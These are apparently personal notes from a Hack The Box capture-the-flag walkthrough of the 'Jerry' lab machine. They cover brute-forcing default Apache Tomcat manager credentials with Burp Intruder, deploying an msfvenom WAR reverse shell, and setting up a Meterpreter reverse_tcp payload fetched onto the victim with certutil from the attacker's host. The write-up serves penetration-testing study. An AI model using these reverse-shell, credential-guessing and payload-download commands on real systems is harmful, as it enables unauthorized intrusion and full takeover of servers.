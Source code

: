 HTB - 5. Jerry (Default Credentials)

1. `nmap -T4 -p- -A 10.10.10.95` shows 8080 open with Apache Tomcat/Coyote JSP engine 1.1 and Tomcat version 7.0.88
2. Go to `10.10.10.95` and shwos Apache Tomcat default page
3. Search `tomcat default credentials` and found https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
4. Burp Suite
	1. Click server management page
	2. Try login with `tomcat:tomcat`
	3. Send to decoder
	4. Select authorization basic and decode as base64
	5. Forwarded and did not work
	6. Try again and sent to repeater and intruder
5. Create passwords
	1. Get from [the url](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) and replace " " with ":".
	2. Write bash script to base64 encode all the credentials
		```
		for cred in $(cat tomcat.txt); do echo -n $cred | base64; done
		```
6. Back to Burp Suite Intruder
	1. Set to sniper attack
	2. Select the authorization basic
	3. Paste in list of base64 encoded usernames and passwords into Payloads/Payload Options
	4. Disable URL encoder
	5. Run and see much longer length code 200 for the successful credientials: `tomcat:s3cret`
7. Create WAR file exploit
	1. Search `tomcat war reverse shell msfvenom`: https://netsec.ws/?p=331
	2. `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f war > shell.war` which will try to connect to our computer on port 4444
	3. `nc -nvlp 4444` to listen on port 4444
	4. Upload to tomcat managment server and deploy
	5. Go to `/shell` and got `nt authoirty/system`
	```
	whoami
	cd c:\users\administrator
	cd Desktop
	cd flags
	dir
	arp -a
	```
8. New reverse shell
	Create payload:
	```
	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=5555 -f exe > sh.exe
	```
	
	Listen on port 5555:
	```
	sudo msfconsole
	use exploit/multi/handler
	set payload windows/x64/meterpreter/reverse_tcp
	options
	set LHOST 10.10.14.24
	set LPORT 5555
	run
	```
	
	Transfer file to windows:
	```
	python -m SimpleHTTPServer 80 <-- start server on attacker
	certutil -urlcache -f http://10.10.14.24/sh.exe c:\users\administrator\desktop\flags\sh.exe <-- On victim
	dir
	sh.exe
	```
	Result: shell popped

